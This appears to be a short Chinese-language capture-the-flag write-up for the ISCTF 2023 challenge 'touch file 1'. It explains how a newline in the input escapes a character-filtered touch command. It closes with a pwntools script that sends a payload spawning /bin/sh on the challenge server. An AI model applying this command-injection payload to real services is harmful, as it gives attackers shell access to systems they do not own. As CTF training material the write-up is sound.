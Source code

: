 ```yaml
---
title: isctf2023 - touch file 1
date: 2023/12/4 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - shell jail
excerpt: 通过命令注入利用换行符成功获取shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

考察命令注入，进入touch后存在字符检查，把大部分字符都ban了，
但是想到平时输命令都是按回车执行的，那么利用换行能不能结束touch命令呢？

给新手提个醒，read函数虽然是按'\n'截断输入的，但是将'\n'包含在payload中发送过去时，
只要不是最后一个字符，就不会被截断

测试一下，成功拿到shell

## EXPLOIT

```python
from pwn import *
sh = remote('43.249.195.138', 20440)
sh.sendline(b'1')

sh.sendline(b'-c qqq \n /bin/sh')

sh.interactive()
```

Done.
